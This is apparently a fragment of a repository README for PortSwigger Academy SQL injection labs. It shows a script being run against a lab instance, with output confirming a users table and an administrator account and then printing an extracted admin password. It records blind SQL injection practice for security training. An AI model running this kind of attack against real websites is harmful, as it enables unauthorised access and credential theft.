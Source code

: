 ## SQL Injection Labs - PortSwigger Academy

#### Blind SQL Injection with Conditional Response Lab
```bash
 $ python3 blind_sql_conditional_response.py https://aca11f2a1e76b68e80af965200bf0092.web-security-academy.net
 Checking users table: True
 Checking Administrator account: True
 Checking password length: 20
 Extracting Admin password: 4iwxwfcbi3r64bnvrb2f
```
